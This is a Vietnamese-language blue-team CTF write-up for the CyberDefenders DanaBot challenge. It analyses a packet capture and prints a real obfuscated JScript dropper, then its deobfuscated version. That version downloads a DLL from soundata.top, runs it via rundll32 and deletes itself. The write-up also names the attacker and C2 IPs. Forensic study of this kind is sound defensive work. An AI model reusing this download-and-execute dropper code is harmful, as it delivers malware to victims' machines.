


### Description 
> Our SOC team detected suspicious activity in the network traffic. A machine has been compromised, and company information that should not have been there has now been stolen. It’s up to you to determine what happened and what data was taken.
### Link challenge 
> https://cyberdefenders.org/blueteam-ctf-challenges/danabot/
### Solution 
- Bài này cho ta 1 file pcap, mở file ra ta nhìn thấy ngay 1 lệnh GET file login.php
- Theo dõi luồng stream này ta thấy nó get 1 file login.php nhưng thực chất nó đã bị chuyển hướng đến file `allegato_708.js`(2) nhưng đã bị `obfuscation`
```
function _0x23c2(){var _0xac67d2=['a8k3odVdVaBcHh/dUmoMWRBdK8kS','W6XeW43cPJWvWQ/cGhykW5FcQ3O','WOa1eupdOSkXWROVjCoMbLldTNq','WQWlk2mA','j8ocW6xcJ0hdNCoJW4RcPsRdVmo6kW','pmk+dmk5W6qEW67dOMi','ECo8WPZdNmojb37dQSoLe8kIja','tmopD8k7W7a1W4VdSLeMuCoNWP1VW5pcVgehWPzkB3hdKKSpnatdICkRoIxdT1O/W6Tzru3dMmoBmCkfW6xcNmkdW6ZdJ8oWCSklWQ/dVG','AcXXvd0E','W5hcUaxcQZFdG8khp13dMezGeG','gSkFWPRdN8kLrCkMdq','kSoWqSkCqmobWRhcGtCsjYm','WPKzWQCXWOhdTmo/','W6uSb8o4z8oHxbVcRfNdICou','W5JcIImOW57cRCoOhJO','jKJcOIerWOhcMaXtd01a','W69bW4pcOtWAWQNcRLm+W6tcQ2e','WQvGi8kdW59hjSkCsx3cRCkR','vCozW4/cRCkEWQRdS8onFsTaWPRcJCoru8o6','W7TtCJvFwHeFW53dSrjc','BXinydldQ8oeWQpdK15tW7pcVq','wCo0rmkA','WQVdH1zWwcldI8kmnNpdSCoUWO0','p2OrWOqWWRS','W7iWWQu2','g3K9WPC','WPS6amoPESo7','n2rUfXKj','lSkTamkgb8o2W7tcH8ktqSkAWOSIWQXnW6u','W6fVuXRcPSo3W4Wio8o4exJdSa','W6XdW4FcOtGAWQ7cRuCyW6RcMxC','W6qOaSoTxmoGArFcGLm','ASkXW5aoWQS','qmoEBmkYW7LbWQldOLuGuSo/WOrX','W6VcUv0vELW+WQ8yfCkbW4S','BSkGW4StWR7cRg1RzCo+WPjfeSoNW4LfF8k7mwrDiJVdTf7cQW','eSofqmkq','W6hcGmkYmLHeWRJdNfuiW4jrqCkVzmkHhmknWPz/W6pcNJ/dRSoSW4WSpNn2WPiGW5a','W7HEDdXCuxqpW6hdUqrWW5K','W4pdVrDzWPJcMmkvmZefcNS','W5/dJfJdUMZcT8o2','g0qgkvtdTG','AXWozJVdQ8kKWQNdQwPRW5m','ueNcGq','W4neW7ZcHLJdJ8kTBmkqW7HAt28','iSktWPxcO8k5y0WHsce','E8k3WQG+W5e','yCoKCMFcUeRdMxtdM8kDWRNdR8kzqmoPWQ87W5aAWR1woH7cRCoxW6S','gwbR','fhfLhG'];_0x23c2=function(){return _0xac67d2;};return _0x23c2();}var _0x10ab20=_0x57c2;(function(_0x562920,_0x324070){var _0x4c8674=_0x57c2,_0x538a6a=_0x562920();while(!![]){try{var _0x385777=parseInt(_0x4c8674(0x158,'XkeN'))/0x1+parseInt(_0x4c8674(0x12e,'[%Fm'))/0x2+-parseInt(_0x4c8674(0x142,'XkeN'))/0x3+parseInt(_0x4c8674(0x13e,'O%ju'))/0x4+-parseInt(_0x4c8674(0x14b,'xQOj'))/0x5+parseInt(_0x4c8674(0x133,'A4&G'))/0x6*(parseInt(_0x4c8674(0x150,'dK59'))/0x7)+-parseInt(_0x4c8674(0x156,'(Q&R'))/0x8*(parseInt(_0x4c8674(0x132,'OlYg'))/0x9);if(_0x385777===_0x324070)break;else _0x538a6a['push'](_0x538a6a['shift']());}catch(_0x2d274b){_0x538a6a['push'](_0x538a6a['shift']());}}}(_0x23c2,0x54a3a));function _0x414360(_0x5c5160){var _0x567e59=_0x57c2,_0x119065='',_0x4f008b=_0x567e59(0x135,'A4&G'),_0x5a393f=_0x4f008b[_0x567e59(0x149,'w@FV')];for(var _0x3d45b7=0x0;_0x3d45b7<_0x5c5160;_0x3d45b7++){_0x119065+=_0x4f008b[_0x567e59(0x157,'*rdb')](Math[_0x567e59(0x131,'sRMv')](Math[_0x567e59(0x145,'GKs8')]()*_0x5a393f));}return _0x119065+_0x567e59(0x147,'5%8N');}var _0x23d4f8=_0x10ab20(0x153,'%$(b'),_0x48a85a=_0x414360(0xa),_0x44bdd9=new ActiveXObject(_0x10ab20(0x151,'V6of'))[_0x10ab20(0x14a,'^5PL')](0x2)+'\x5c'+_0x48a85a,_0x5da57f=WScript[_0x10ab20(0x134,'oGec')](_0x10ab20(0x14f,'A4&G'));function _0x57c2(_0x11e4af,_0x54a6eb){var _0x23c29e=_0x23c2();return _0x57c2=function(_0x57c28d,_0x19268b){_0x57c28d=_0x57c28d-0x128;var _0x26c549=_0x23c29e[_0x57c28d];if(_0x57c2['VLfCmI']===undefined){var _0x9ab1c1=function(_0x49a20c){var _0x3b5c63='abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789+/=';var _0xcdecf3='',_0x16e53d='';for(var _0x39434a=0x0,_0x3cb912,_0x118fbd,_0x4e12df=0x0;_0x118fbd=_0x49a20c['charAt'](_0x4e12df++);~_0x118fbd&&(_0x3cb912=_0x39434a%0x4?_0x3cb912*0x40+_0x118fbd:_0x118fbd,_0x39434a++%0x4)?_0xcdecf3+=String['fromCharCode'](0xff&_0x3cb912>>(-0x2*_0x39434a&0x6)):0x0){_0x118fbd=_0x3b5c63['indexOf'](_0x118fbd);}for(var _0x42daf9=0x0,_0x4f2d07=_0xcdecf3['length'];_0x42daf9<_0x4f2d07;_0x42daf9++){_0x16e53d+='%'+('00'+_0xcdecf3['charCodeAt'](_0x42daf9)['toString'](0x10))['slice'](-0x2);}return decodeURIComponent(_0x16e53d);};var _0x1be13e=function(_0x43cbd0,_0x5e5510){var _0x14b9a0=[],_0x24e5cd=0x0,_0x5c44af,_0x5c1992='';_0x43cbd0=_0x9ab1c1(_0x43cbd0);var _0x363895;for(_0x363895=0x0;_0x363895<0x100;_0x363895++){_0x14b9a0[_0x363895]=_0x363895;}for(_0x363895=0x0;_0x363895<0x100;_0x363895++){_0x24e5cd=(_0x24e5cd+_0x14b9a0[_0x363895]+_0x5e5510['charCodeAt'](_0x363895%_0x5e5510['length']))%0x100,_0x5c44af=_0x14b9a0[_0x363895],_0x14b9a0[_0x363895]=_0x14b9a0[_0x24e5cd],_0x14b9a0[_0x24e5cd]=_0x5c44af;}_0x363895=0x0,_0x24e5cd=0x0;for(var _0x46ed8b=0x0;_0x46ed8b<_0x43cbd0['length'];_0x46ed8b++){_0x363895=(_0x363895+0x1)%0x100,_0x24e5cd=(_0x24e5cd+_0x14b9a0[_0x363895])%0x100,_0x5c44af=_0x14b9a0[_0x363895],_0x14b9a0[_0x363895]=_0x14b9a0[_0x24e5cd],_0x14b9a0[_0x24e5cd]=_0x5c44af,_0x5c1992+=String['fromCharCode'](_0x43cbd0['charCodeAt'](_0x46ed8b)^_0x14b9a0[(_0x14b9a0[_0x363895]+_0x14b9a0[_0x24e5cd])%0x100]);}return _0x5c1992;};_0x57c2['Gcvrzi']=_0x1be13e,_0x11e4af=arguments,_0x57c2['VLfCmI']=!![];}var _0x178ebd=_0x23c29e[0x0],_0x14ddc7=_0x57c28d+_0x178ebd,_0x2a1ef9=_0x11e4af[_0x14ddc7];return!_0x2a1ef9?(_0x57c2['BCBEPx']===undefined&&(_0x57c2['BCBEPx']=!![]),_0x26c549=_0x57c2['Gcvrzi'](_0x26c549,_0x19268b),_0x11e4af[_0x14ddc7]=_0x26c549):_0x26c549=_0x2a1ef9,_0x26c549;},_0x57c2(_0x11e4af,_0x54a6eb);}_0x5da57f[_0x10ab20(0x12d,'w@FV')](_0x10ab20(0x12c,'XkeN'),_0x23d4f8,![]),_0x5da57f[_0x10ab20(0x146,'B[vm')]();if(_0x5da57f[_0x10ab20(0x136,'t2ew')]==0xc8){var _0x3c8952=WScript[_0x10ab20(0x139,'RdnH')](_0x10ab20(0x155,'6N7O'));_0x3c8952[_0x10ab20(0x152,'1GKJ')](),_0x3c8952[_0x10ab20(0x143,'A4&G')]=0x1,_0x3c8952[_0x10ab20(0x14e,'V6of')](_0x5da57f[_0x10ab20(0x13b,'h*Z]')]),_0x3c8952[_0x10ab20(0x138,'JDok')]=0x0,_0x3c8952[_0x10ab20(0x14d,'h*Z]')](_0x44bdd9,0x2),_0x3c8952[_0x10ab20(0x12a,'DYtC')]();var _0x1e16b0=WScript[_0x10ab20(0x13f,']o#z')](_0x10ab20(0x144,'o]7W'));_0x1e16b0[_0x10ab20(0x159,'^n!v')](_0x10ab20(0x140,'1^^k')+_0x44bdd9+_0x10ab20(0x148,'h*Z]'),0x0,!![]);}new ActiveXObject(_0x10ab20(0x12b,'[%Fm'))[_0x10ab20(0x129,'$$(i')](WScript[_0x10ab20(0x130,'xQOj')]);
```
- Sử dụng công cụ online để deobfuscation : https://deobfuscate.relative.im
```
function _0x414360(_0x5c5160) {
  var _0x119065 = '',
    _0x4f008b = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz',
    _0x5a393f = _0x4f008b.length
  for (var _0x3d45b7 = 0; _0x3d45b7 < _0x5c5160; _0x3d45b7++) {
    _0x119065 += _0x4f008b.charAt(Math.floor(Math.random() * _0x5a393f))
  }
  return _0x119065 + '.dll'
}
var _0x23d4f8 = 'http://soundata.top/resources.dll',
  _0x48a85a = _0x414360(10),
  _0x44bdd9 =
    new ActiveXObject('Scripting.FileSystemObject').GetSpecialFolder(2) +
    '\\' +
    _0x48a85a,
  _0x5da57f = WScript.CreateObject('MSXML2.XMLHTTP')
_0x5da57f.Open('GET', _0x23d4f8, false)
_0x5da57f.Send()
if (_0x5da57f.Status == 200) {
  var _0x3c8952 = WScript.CreateObject('ADODB.Stream')
  _0x3c8952.Open()
  _0x3c8952.Type = 1
  _0x3c8952.Write(_0x5da57f.ResponseBody)
  _0x3c8952.Position = 0
  _0x3c8952.SaveToFile(_0x44bdd9, 2)
  _0x3c8952.Close()
  var _0x1e16b0 = WScript.CreateObject('Wscript.Shell')
  _0x1e16b0.Run('rundll32.exe /B ' + _0x44bdd9 + ',start', 0, true)
}
new ActiveXObject('Scripting.FileSystemObject').DeleteFile(
  WScript.ScriptFullName
)
```
- Hàm `_0x414360` mục đích để tạo tên 1 file ngẫu nhiên
```
var _0x23d4f8 = 'http://soundata.top/resources.dll',
  _0x48a85a = _0x414360(10),
  _0x44bdd9 =
    new ActiveXObject('Scripting.FileSystemObject').GetSpecialFolder(2) +
    '\\' +
    _0x48a85a,
  _0x5da57f = WScript.CreateObject('MSXML2.XMLHTTP')
```
- _0x23d4f8: URL mà từ đó mã độc sẽ tải file DLL.
- _0x48a85a: Sử dụng hàm _0x414360 để tạo tên file ngẫu nhiên.
- _0x44bdd9: Lưu file vào thư mục đặc biệt trên máy tính của người dùng (GetSpecialFolder(2) trả về thư mục "My Documents") với tên file vừa tạo.
- _0x5da57f: Khởi tạo một đối tượng HTTP để gửi yêu cầu tải file từ URL.
```
_0x5da57f.Open('GET', _0x23d4f8, false)
_0x5da57f.Send()
if (_0x5da57f.Status == 200) {
  var _0x3c8952 = WScript.CreateObject('ADODB.Stream')
  _0x3c8952.Open()
  _0x3c8952.Type = 1
  _0x3c8952.Write(_0x5da57f.ResponseBody)
  _0x3c8952.Position = 0
  _0x3c8952.SaveToFile(_0x44bdd9, 2)
  _0x3c8952.Close()
```
- Mã này gửi một yêu cầu HTTP GET đến URL http://soundata.top/resources.dll để tải về file DLL.
```
var _0x1e16b0 = WScript.CreateObject('Wscript.Shell')
_0x1e16b0.Run('rundll32.exe /B ' + _0x44bdd9 + ',start', 0, true)
new ActiveXObject('Scripting.FileSystemObject').DeleteFile(
  WScript.ScriptFullName
)
```
- Thực thi file này bằng Wscript.exe (4) và xoá nó nhằm tránh sự điều tra của Blue team.
- Nhìn vào wireshark, ta thấy ip ra lệnh GET `resources.dll` (đây cũng chính là ip thực thi file này) là `10.2.14.101` , ta sẽ theo dõi ip này để xem ip của kẻ tấn công là gì.
> ip.src == 10.2.14.101
- Tại luồng tcp thứ 11, ta thấy có 1 vài gói
- 
- Nhìn vào cổng 443 và gói SYN, thấy rằng đây là 1 gói yêu cầu thiết lập HTTPS, và đây là gói đầu tiên trong quá trình bắt tay 3 bước
- Theo dõi luồng tiếp theo, ta thấy dữ liệu được gửi đi thông qua ssl
- 
- Từ đây ta có thể xác định được rằng ip của kẻ tấn công là `62.173.146.41`(1) và ip C2 là `91.201.67.85`(7)
- Ngoài ra ta cũng có thể có 1 vài cách phân tích khác như phân tích tĩnh thông qua cách đọc src ida hoặc sử dụng virustotal để phân tích động


